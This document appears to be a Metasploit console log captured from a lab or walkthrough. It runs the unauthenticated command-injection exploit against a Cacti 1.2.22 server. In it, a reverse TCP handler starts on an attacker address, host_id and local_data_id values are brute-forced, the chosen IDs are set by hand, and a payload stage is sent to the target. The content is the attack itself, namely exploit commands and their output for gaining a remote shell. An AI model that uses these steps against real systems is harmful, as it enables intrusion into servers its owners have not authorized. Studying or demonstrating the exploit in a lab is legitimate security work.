 ```

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[*] Performing request 25...
[*] Performing request 50...
[*] Performing request 75...
[*] Performing request 100...
[*] Enumerating local_data_id values for host_id 2
[*] Performing request 125...
[*] Performing request 150...
[*] Performing request 175...
[*] Performing request 200...
[*] Enumerating local_data_id values for host_id 3
[*] Performing request 225...
[*] Performing request 250...
[*] Performing request 275...
[*] Performing request 300...
[*] Enumerating local_data_id values for host_id 4
[*] Performing request 325...
[*] Performing request 350...
[*] Performing request 375...
[*] Performing request 400...
[*] Enumerating local_data_id values for host_id 5
[*] Performing request 425...
[*] Performing request 450...
[*] Performing request 475...
[*] Performing request 500...
[!] Identified 15 host_id - local_data_id combination(s) that may be exploitable, but could not be positively identified as such:
        host_id: 1 - local_data_id: 156
        host_id: 1 - local_data_id: 157
        host_id: 1 - local_data_id: 158
        host_id: 1 - local_data_id: 164
        host_id: 1 - local_data_id: 166
        host_id: 1 - local_data_id: 167
        host_id: 1 - local_data_id: 168
        host_id: 1 - local_data_id: 169
        host_id: 1 - local_data_id: 170
        host_id: 1 - local_data_id: 173
        host_id: 1 - local_data_id: 174
        host_id: 1 - local_data_id: 175
        host_id: 1 - local_data_id: 176
        host_id: 1 - local_data_id: 177
        host_id: 1 - local_data_id: 178
[*] You can try to exploit these by manually configuring the HOST_ID and LOCAL_DATA_ID options
[-] Exploit aborted due to failure: no-target: Failed to identify an exploitable host_id - local_data_id combination.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set host_id 1
host_id => 1
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set local_data_id 156
local_data_id => 156
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Sending stage (1017704 bytes) to 10.18.0.3
[*] Command Stager progress - 100.00% done (773/773 bytes)
```